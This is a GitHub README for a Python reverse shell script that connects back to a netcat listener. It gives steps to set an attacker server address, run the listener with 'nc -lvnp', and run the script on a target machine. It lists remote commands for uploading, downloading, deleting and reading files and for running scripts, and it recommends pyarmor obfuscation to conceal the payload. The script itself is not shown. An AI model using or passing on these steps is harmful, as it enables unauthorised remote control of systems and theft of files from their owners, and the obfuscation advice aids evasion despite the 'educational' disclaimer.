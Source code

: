 # Created By ANONYMOUSx46

## Python Coded Revese Shell:

A Python-based reverse shell script that works seamlessly with the Kali Linux tool **netcat**. This script allows you to establish a remote connection to a machine, execute commands, and transfer files. The code can also be run through an obfuscator tool for added security.

## Prerequisites

- Python 3.x
- Kali Linux with netcat installed
- Obfuscator tool (optional)

## Installation

1. **Clone the repository:**

    ```bash
    git clone https://github.com/yourusername/Reverse-shell.git
    cd Reverse-shell
    ```

2. **Configure the server address and port:**

    Edit the Python script to set your server's IP address and port:

    ```python
    server_address = 'YOUR_SERVER_IP'
    server_port = YOUR_SERVER_PORT
    ```

3. **Run the script:**

    ```bash
    python3 Rev3.py
    ```

## Usage

1. **Set up the listener on your Kali Linux machine:**

    ```bash
    nc -lvnp <PORT>
    ```

    Replace `<PORT>` with the port number you configured in the Python script.

2. **Run the reverse shell script on the target machine:**

    ```bash
    python3 Rev3.py
    ```

3. **Available Commands:**

    - `quit`: Exit the reverse shell.
    - `clear`: Clear the terminal screen.
    - `cd <directory>`: Change the current directory.
    - `set <var>=<value>`: Set an environment variable.
    - `upload <file_path>`: Upload a file to the target machine.
    - `download <file_path>`: Download a file from the target machine.
    - `rm <file_path>`: Remove a file from the target machine.
    - `mkdir <directory_path>`: Create a directory on the target machine.
    - `cat <file_path>`: Read a file's contents.
    - `python <script_path>`: Execute a Python script.

## Obfuscation (Optional)

For added security, you can run the script through an obfuscator tool. One popular option is [pyarmor](https://pypi.org/project/pyarmor/).

1. **Install pyarmor:**

    ```bash
    pip install pyarmor
    ```

2. **Obfuscate the script:**

    ```bash
    pyarmor pack -x " --exclude obf " reverse_shell.py
    ```

## Disclaimer

This project is intended for educational purposes only. The author is not responsible for any misuse of this tool.
